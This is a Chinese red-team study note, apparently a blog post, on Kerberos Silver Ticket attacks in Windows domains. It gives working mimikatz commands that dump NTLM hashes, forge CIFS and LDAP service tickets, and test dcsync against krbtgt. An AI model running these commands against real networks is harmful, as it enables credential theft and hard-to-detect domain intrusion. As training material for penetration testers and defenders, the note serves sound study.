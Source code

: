 ```yaml
---
title: 【内网学习笔记】29、白银票据
date: 2021-10-09 14:55:24
id: 211009-145524
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202110091330529.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

白银票据（Sliver Ticket） 不同于黄金票据（Golden Ticket）

> Kerberos 协议详解：[https://teamssix.com/210923-151418.html](https://teamssix.com/210923-151418.html)

白银票据不与密钥分发中心 KDC 交互，因此没有了 Kerberos 认证协议里的前 4 步，通过伪造的票据授予服务 TGS 生成伪造的服务票据  ST 直接与服务器 Server 进行交互。

白银票据与黄金票据的区别：

1、白银票据不经过 KDC，因此白银票据日志相对于黄金票据会更少，同时白银票据的日志都在目标服务器上，域控上不会有日志

2、白银票据利用服务账户的哈希值，不同于黄金票据利用 krbtgt 账户的哈希值，因此白银票据更加隐蔽，但白银票据的权限就远不如黄金票据的权限了

想利用白银票据需要先知道以下信息：

* 域名
* 域 SID
* 目标服务器的 FQDN 即完整的域名
* 可利用的服务
* 服务账户的 NTLM 哈希
* 伪造的用户名即任意用户名

## 1、伪造 CIFS 服务权限

CIFS 服务常用于 Windows 主机之间的文件共享，首先使用 mimikatz 获取服务账户的 NTLM 哈希，这里使用的 Username 为 DC$ 的 NTLM 哈希

```
.\mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords" exit
```

得到 HASH 后，清空当前系统中的票据，防止其他票据干扰

```
klist purge

# 或者在 mimikatz 里清除

kerberos::purge
```

使用 mimikatz 生成伪造的白银票据

```
.\mimikatz.exe "kerberos::golden /user:t /domain:teamssix.com /sid:S-1-5-21-284927032-1122706408-2778656994 /target:dc /rc4:ef9e49a41feaa171f642016fd4cb7e7a /service:cifs /ptt" exit
```

​	![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202110091330529.png)

在伪造票据后，使用 dir 命令就能读取到目标的共享服务了。

## 2、伪造 LDAP 服务权限

首先判断当前权限是否可以使用 dcsync 域控进行同步

```
.\mimikatz.exe "lsadump::dcsync /dc:dc /domain:teamssix.com /user:krbtgt" exit
```

如果返回 ERROR 说明当前权限不能进行 dcsync 操作

接下来生成 LDAP 服务的白银票据

```
.\mimikatz.exe "kerberos::golden /user:t /domain:teamssix.com /sid:S-1-5-21-284927032-1122706408-2778656994 /target:dc /rc4:ef9e49a41feaa171f642016fd4cb7e7a /service:ldap /ptt" exit
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202110091403286.png)

> 参考文章：
>
> [https://cloud.tencent.com/developer/article/1760135](https://cloud.tencent.com/developer/article/1760135)
>
> [https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/)
>
> 原文链接：
>
> [https://teamssix.com/211009-145524.html](https://teamssix.com/211009-145524.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
